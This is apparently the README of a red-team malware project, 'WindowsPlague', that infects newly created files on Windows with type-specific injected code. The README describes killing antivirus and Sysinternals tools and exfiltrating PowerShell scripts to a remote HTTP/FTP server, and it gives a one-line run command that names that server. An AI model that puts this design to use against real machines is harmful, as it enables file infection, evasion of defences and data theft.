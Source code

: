 # WindowsPlague

![logo](https://raw.githubusercontent.com/M507/WindowsPlague/master/Fullp.png)

WindowsPlague is Windows Malware built for Red-Team activities. Windows Malware monitors every new file in the system and infects it with a specific injection according to the kind of file. 


### Features:
----------
* Infects every new file in the system.
* Customized injections for each file.
* Quick removal for any antivirus.
* Quick removal for all Sysinternals binaries.
* Collects all ps1 files and transfers them to FTP server, to analyse.

### How does it work?
----------
It needs a server that must have:

| File name | Description                  |
|-----------|------------------------------|
| Ips1.dll  | for Powershell files.        |
| Iasp.dll  | for asp and aspx files.      |
| Ibat.dll  | for Batch files.             |
| Iphp.dll  | for PHP files.               |
| Itxt.dll  | for txt files.               |
| antiu.dll | for all prohibited keywords. |


Each dll file should have the injection code for each type of file.
Thus, each PHP file will be injected by the contact of Iphp.dll.

For example, If you do not want to inject txt files, do write anything in Itxt.dll, and this way it will not inject anything in txt files. But Itxt.dll must exist in the HTTP/FTP server.

### Run
----------
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Mohd> WindowsPlague.exe <HTTP/FTP server>
```

<HTTP/FTP server> Is needed so that the WindowsPlague can download all the .dll files from and whenever it finds a ps1 file sends it to <HTTP/FTP server>. 

